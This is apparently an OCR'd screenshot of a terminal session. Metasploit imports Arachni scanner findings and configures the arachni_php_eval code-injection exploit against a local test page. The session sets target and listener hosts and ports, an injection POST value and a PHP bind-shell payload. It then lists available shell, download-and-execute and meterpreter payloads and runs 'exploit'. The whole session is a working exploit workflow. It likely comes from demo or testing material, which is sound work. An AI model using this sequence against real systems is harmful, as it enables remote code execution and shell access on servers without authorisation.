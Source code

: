     [*] Done!
    msf > arachni_manual 3
    [*] Using unix/webapp/arachni_php_eval .
    [*] Preparing datastore for 'Code injection' vulnerability @ 127.0.0.1/~zapotek/tests/forms/eval.php ...
    SRVHOST => 127.0.0.1
    SRVPORT => 9681
    RHOST => 127.0.0.1
    RPORT => 80
    LHOST => 127.0.0.1
    LPORT => 13200
    POST => eval=;XXinjectionXX
    COOKIES =>
    HEADERS => Accept=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8::User-Agent=Arachni/0.2.1
    PATH => /~zapotek/tests/forms/eval.php
    PAYLOAD => php/bind_php
    [*] Done!

    Compatible payloads
    ===================

        Name                         Description
        ----                         -----------
        generic/shell_bind_tcp       Listen for a connection and spawn a command shell
        generic/shell_reverse_tcp    Connect back to attacker and spawn a command shell
        php/bind_perl                Listen for a connection and spawn a command shell via perl (persistent)
        php/bind_php                 Listen for a connection and spawn a command shell via php
        php/download_exec            Download an EXE from an HTTP URL and execute it
        php/exec                     Execute a single system command
        php/meterpreter/bind_tcp     Listen for a connection, Run a meterpreter server in PHP
        php/meterpreter/reverse_tcp  Reverse PHP connect back stager with checks for disabled functions, Run a meterpreter server in PHP
        php/reverse_perl             Creates an interactive shell via perl
        php/reverse_php              Reverse PHP connect back shell with checks for disabled functions
        php/shell_findsock
                                    Spawn a shell on the established connection to
                                    the webserver.  Unfortunately, this payload
                                    can leave conspicuous evil-looking entries in the
                                    apache error logs, so it is probably a good idea
                                    to use a bind or reverse shell unless firewalls
                                    prevent them from working.  The issue this
                                    payload takes advantage of (CLOEXEC flag not set
                                    on sockets) appears to have been patched on the
                                    Ubuntu version of Apache and may not work on
                                    other Debian-based distributions.  Only tested on
                                    Apache but it might work on other web servers
                                    that leak file descriptors to child processes.



    Use: set PAYLOAD <name>
    msf exploit(arachni_php_eval) > exploit
